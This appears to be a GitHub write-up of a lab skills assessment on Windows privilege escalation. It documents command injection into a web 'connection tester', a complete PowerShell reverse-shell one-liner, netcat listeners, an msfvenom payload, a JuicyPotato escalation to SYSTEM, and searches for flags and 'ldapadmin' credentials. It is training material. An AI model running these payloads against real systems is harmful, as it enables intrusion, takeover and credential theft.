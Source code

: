 # Windows Privilege Escalation Skills Assessment - Part I
During a penetration test against the INLANEFREIGHT organization, you encounter a non-domain joined Windows server host that suffers from an unpatched command injection vulnerability. After gaining a foothold, you come across credentials that may be useful for lateral movement later in the assessment and uncover another flaw that can be leveraged to escalate privileges on the target host.

For this assessment, assume that your client has a relatively mature patch/vulnerability management program but is understaffed and unaware of many of the best practices around configuration management, which could leave a host open to privilege escalation.

Enumerate the host (starting with an Nmap port scan to identify accessible ports/services), leverage the command injection flaw to gain reverse shell access, escalate privileges to `NT AUTHORITY\SYSTEM` level or similar access, and answer the questions below to complete this portion of the assessment.

## 🔎 Initial Recon with Nmap
My first step was to identify open ports and services running on the target machine using a stealthy scan:
```bash
sudo nmap -sC -sV -Pn 10.129.225.12
```
![image](https://github.com/user-attachments/assets/2692cd59-62af-4611-b4ba-183d66e38bc9)

**Key Findings:**
Port 80 is running Microsoft IIS 10.0, showing a basic page titled “DEV Connection Tester.”

Port 3389 is open but not useful in our case since we don’t have valid credentials for RDP.

TRACE is enabled, which could be risky, but the bigger lead is the web interface.

## 🌐 Accessing the Web Interface
Visiting http://10.129.225.12/ in the browser revealed something interesting — a webshell interface.
After a few attempts, I realized the interface accepted system commands and returned output, albeit in a sanitized format.

![image](https://github.com/user-attachments/assets/4c92a944-0c39-453b-bd66-f8efe498db3f)

When I tested with whoami; responded with host not found. 

## 🧪 Testing Command Injection Behavior
To understand the command parser behind the webshell, I tested some basic input tricks:
```bash
127.0.0.1 | whoami
```
This worked and printed the result — suggesting the backend was piping the input and not strictly validating or sanitizing it. This was crucial for payload crafting.

![image](https://github.com/user-attachments/assets/ebc32339-7cff-457b-96ba-a4c162a8dddc)

## 🕵️‍♂️ Exploiting for Reverse Shell
Since we couldn’t interact directly with the shell, I needed a PowerShell reverse shell payload that could be injected via this command interface.

Here’s the PowerShell one-liner I used:
```bash
127.0.0.1 | powershell -nop -w hidden -c "$client = New-Object Net.Sockets.TCPClient('10.10.14.45',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
🔥 The use of `127.0.0.1 |` helped bypass some restrictions in the input handling logic.

## 🛎️ Setting Up a Netcat Listener
On my attacker machine, I set up a listener to catch the reverse shell:
```bash
nc -lvnp 4444
```
After submitting the payload via the webshell, I received a connection!
Got a reverse shell as a low-privilege user.

![image](https://github.com/user-attachments/assets/c34679cc-f34e-4727-9867-49226bdbcb8f)

## 🔍 Privilege Escalation Discovery
Checked for privileges with `whoami /priv` command and found that `SeImpersonatePrivilege` Enabled.

![image](https://github.com/user-attachments/assets/fe146445-f6ab-48bb-9626-aed0c7211573)

Machine is vulnerable to Juicy Potato privilege escalation (Windows Server 2016 + SeImpersonate).

## 🛠️ Tool Transfer and Execution
**Setup HTTP Server (Attacker)**
```wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
python3 -m http.server 8080
```
**Transfer JuicyPotato to Victim**
```bash
powershell -c "(New-Object Net.WebClient).DownloadFile('http://10.10.14.45:8080/JuicyPotato.exe','C:\Tools\jp.exe')"
```
**Create Reverse Shell Payload**
```bash
msfvenom -p cmd/windows/reverse_powershell lhost=10.10.14.45 lport=9999 -f raw > shell.bat
```
Transfer shell.bat using the same HTTP server and PowerShell download method.
**Execute Juicy Potato**
```bash
C:\Tools\jp.exe -l 53375 -p C:\Windows\System32\cmd.exe -a "/c C:\Tools\shell.bat" -t * -c "{7A6D9C0A-1E7A-41B6-82B4-C3F7A27BA381}"
```
![image](https://github.com/user-attachments/assets/9957404b-d484-4015-a238-3ab08319a021)

**Set listener:**
```bash
nc -lvnp 9999
```
![image](https://github.com/user-attachments/assets/3dafa90c-05ff-4b14-8e1b-09c833856c18)

## ✅ Privilege Escalation Achieved
In the new shell:
```bash
whoami
```
![image](https://github.com/user-attachments/assets/cd86fdc8-9d5c-4d23-9b2a-5ac75807a5de)

## 🎯 Post Exploitation and Flag Retrieval
**Search for Sensitive Files**
```bash
dir C:\ /s /b | findstr /i "confidential.txt"
```
Found confidential.txt containing a flag.

![image](https://github.com/user-attachments/assets/7090d170-1003-47a3-aeb3-d757ad0eac1f)

**Administrator Flag**
Negivated to the Administrator's Desktop and found a flag.

**Search for LDAP Password**
```bash
powershell -Command "Get-ChildItem -Path C:\Users\ -Recurse -File -ErrorAction SilentlyContinue | Select-String -Pattern 'ldapadmin'"
```
![image](https://github.com/user-attachments/assets/a2cbaa77-0854-4e05-80c3-4647842127b2)

Successfully found credentials or strings related to `ldapadmin`.

**Patch Check**
`systeminfo' gave two KB's running in the system.
